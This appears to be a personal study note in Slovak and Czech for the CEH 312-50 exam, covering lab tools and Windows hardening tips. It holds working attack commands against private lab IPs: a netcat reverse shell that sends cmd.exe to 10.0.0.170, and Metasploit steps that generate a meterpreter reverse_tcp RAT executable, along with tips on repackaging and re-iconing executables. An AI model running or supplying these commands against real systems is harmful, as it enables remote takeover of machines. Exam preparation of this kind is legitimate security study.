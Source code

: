 # skuska 312-50

examcollection.com

- 80 usd/y + 120 ECE/3y

# basics

<https://moxie.org/software/sslstrip/>

siet prihlasovanie: 802.1x

nmap, hpin63, wireshark - capture filtre + disp filters, IDS -> Firewall rules (ip tables), NTHASH, CACHEDCRED, NTLM, KERBEROS, ssl + cert, csrx, xss, sqli, command...  
GHDB - google hacking database

application, proxy whitelisting whitelisting, operatory < >

gpedit.msc - software restriction policies - whitelist na konkretne aplikace

excell -> options -> trust center -> zakazat makra iba na podpisane

použité IP adresy v dokumente:
10.0.0.170 - kali
10.0.0.40 - win7

# kali

kopirovanie cez putty: pscp e:\Info.txt root@10.0.0.170:/root/Desktop/info_copy.txt

--------------------------------------

vypisat listener: netstat -nltp  
zapnut listener netcat: nc -lvvp 99  
pripojit sa na netcat: nc 10.0.0.170 99 -e cmd.exe  

# zip/rar baliky ako exe

- poznamka: syswow64 obsahuje 32 bitove programy

balickovac: c:\windows\SysWOW64\iexpress.exe  
zmena ikonky, atd: reshacker (Resource Hacker)

# meterpreter, metasploit

msfconsole

/Mat/lab/LAB-MoD7-MSFConsoleHowTo.txt
```bash
: USE 		= jdeme vytvorit
: SET 		= nastavit parametry spojeni
: exploit -j 	= spustit handler v multilistener stavu
: LHOST		= IP naslouchajiciho C&C
: LPORT		= PORT naslouchajiciho C&C


: payload (RAT)
use  payload/windows/meterpreter/reverse_tcp

set  lhost  10.0.0.170

set  lport  4444

generate  -t  exe  -f /var/www/html/msfx2.exe

```